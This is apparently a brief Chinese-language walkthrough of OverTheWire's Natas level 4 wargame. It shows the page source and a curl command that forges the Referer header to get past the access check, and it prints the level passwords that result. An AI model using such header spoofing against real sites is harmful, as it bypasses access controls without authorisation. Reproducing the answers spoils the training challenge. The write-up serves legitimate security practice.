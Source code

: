 ![level4](image-8.png)
```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```
然后一条命令解决
```
C:\Users\>curl -e "http://natas5.natas.labs.overthewire.org/" -u natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm "http://natas4.natas.labs.overthewire.org/"
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
```